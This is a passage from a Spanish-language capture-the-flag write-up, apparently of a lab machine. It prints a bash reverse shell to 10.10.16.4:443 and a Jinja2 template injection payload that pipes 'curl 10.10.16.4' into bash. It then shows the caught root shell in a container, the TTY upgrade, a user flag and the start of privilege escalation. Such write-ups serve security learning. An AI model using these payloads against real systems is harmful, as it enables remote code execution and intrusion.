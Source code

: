 ```null
#!/bin/bash

bash -i >& /dev/tcp/10.10.16.4/443 0>&1
```

{%raw%}
```null
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('curl 10.10.16.4 | bash').read() }}
```
{%endraw%}


Gano acceso al sistema

```null
nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.16.4] from (UNKNOWN) [10.10.11.130] 42266
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@3a453ab39d3d:/backend# script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
root@3a453ab39d3d:/backend# ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
root@3a453ab39d3d:/backend# export TERM=xterm
root@3a453ab39d3d:/backend# export SHELL=bash
root@3a453ab39d3d:/backend# stty rows 55 columns 209
```

Estoy dentro de un contenedor

```null
root@3a453ab39d3d:/backend# hostname -I
172.19.0.2 
```

Puedo ver la primera flag

```null
root@3a453ab39d3d:/home/augustus# cat user.txt 
89f832d05f32fdc2224099192654bdc8
```

# Escalada

El directorio personal de este usuario es una montura

```null
root@3a453ab39d3d:/home/augustus# df -h
Filesystem      Size  Used Avail Use% Mounted on
overlay         6.3G  5.0G  991M  84% /
tmpfs            64M     0   64M   0% /dev
tmpfs           2.0G     0  2.0G   0% /sys/fs/cgroup
/dev/sda1       6.3G  5.0G  991M  84% /home/augustus
shm              64M     0   64M   0% /dev/shm
tmpfs           2.0G     0  2.0G   0% /proc/acpi
tmpfs           2.0G     0  2.0G   0% /sys/firmware
```
